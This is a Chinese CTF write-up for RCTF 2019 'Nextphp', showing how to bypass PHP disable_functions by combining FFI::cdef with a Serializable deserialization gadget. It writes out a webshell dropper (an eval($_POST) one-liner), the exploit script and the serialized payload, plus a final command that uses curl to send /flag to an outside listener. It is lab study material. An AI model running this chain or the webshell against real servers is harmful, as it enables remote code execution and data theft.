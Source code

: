 ```yaml
---
title: '[RCTF 2019]Nextphp'
date: 2024-10-18 19:06:43
tags:
      - FFI
      - Serablizable接口
categories: 刷题笔记
---
```


### [RCTF 2019]Nextphp

我们先传入phpinfo()看看有什么信息

flag包不在的

![image-20241018191422659](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410181914825.png)

我们发现禁了大部分函数

<!--more-->

![image-20241018191638212](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410181916240.png)

我们来看看有什么方法可以突破disable_functions

1.LD_PRELOAD

mail,putenv,error_log全被禁了不能用

2.Apache Mod CGI

没开

### FFI

![img](https://img2020.cnblogs.com/blog/1960851/202007/1960851-20200728185033456-1498694777.png)

如果ffi.cdef没有第二个参数，会在全局查找，第一个参数所声明的符号。意思就是其在不传入第二个参数时，可以直接调用php代码。所以我们在声明后，即可加入php代码

核心思想：
**实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions**

这个可以用



我们先传入一句话木马来连接

```
?a=file_put_contents('a.php','<?php eval($_POST[1]); ?>');
```

其他目录没有权限打开

![image-20241018192659226](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410181926278.png)

我们打开preload.php

```
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

这里有个点

### Serializable接口

![img](https://img2020.cnblogs.com/blog/1960851/202007/1960851-20200728185930118-1589543893.png)

**如果一个类同时使用了Serializable和__Serialize（）/__Unserialize（），则序列化将倾向于使用新机制，而非序列化则可以使用其中一种机制，具体取决于使用的是C（Serializable）还是O（Uu unserialize）格式。因此，以C格式编码的旧的序列化字符串仍然可以解码，而新的字符串将以O格式生成。**

这也就是之后序列化后首字母是C而不是O。同时会先执行Serializable接口中的方法。

> PHP Serializable是自定义序列化的接口。实现此接口的类将不再支持__sleep()和__wakeup()，当类的实例被序列化时将自动调用serialize方法，并且不会调用 __destruct()或有其他影响。当类的实例被反序列化时，将调用unserialize()方法，并且不执行__construct()。



本程序中并没有用户传参，还是需要从index.php中传参进去，反序列化。所以去掉多余的函数，编写exp

[![img](https://img2020.cnblogs.com/blog/1960851/202007/1960851-20200728175812241-1109855481.png)](https://img2020.cnblogs.com/blog/1960851/202007/1960851-20200728175812241-1109855481.png)

本来想只留三个属性的，发现无法序列化，缺少方法，serialize和unserialize补上

然后就是前置知识说到的，需要删掉__serialize和__unserialize，因为php7.4新特性它会优先触发这两个函数，而看这两个函数可知其实现的方法并不是正确的

```
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',                          
        'arg' => 'int system(const char *command);'     //声明
    ];

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
    }
}

$a = new A();
$b = serialize($a);
echo $b;

```

本地编写exp，输出结果
序列化结果：`C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}`

上述代码实现声明
`FFI::cdef("int system(const char *command);")`

所以现在只需调用即可，通过设置__serialize()['ret']的值获取flag

__serialize()['ret']->system('curl -d @/flag linux靶机的ip')

完整paylaod:
`

```
?a=$a=unserialize('C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}')->__serialize()['ret']->system('curl -d @/flag linux靶机ip:8888');
```

`

传参后完整过程：
1.unserialize
把payload传给data参数,即覆盖原参数



```
protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];
```

2.run
ret=FFI::cdef('int system(const char *command);')

3.__serialize()
指定的ret内容即是最终的执行命令，通过最后的return调用，返回flag。这里无回显，但是打过去没报错，应该是没问题了。这里需要监听

xshell连接linux靶机，查询linux靶机ip地址后，放在上面的payload中，监听

得到flag

![image-20241018193749271](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410181937299.png)

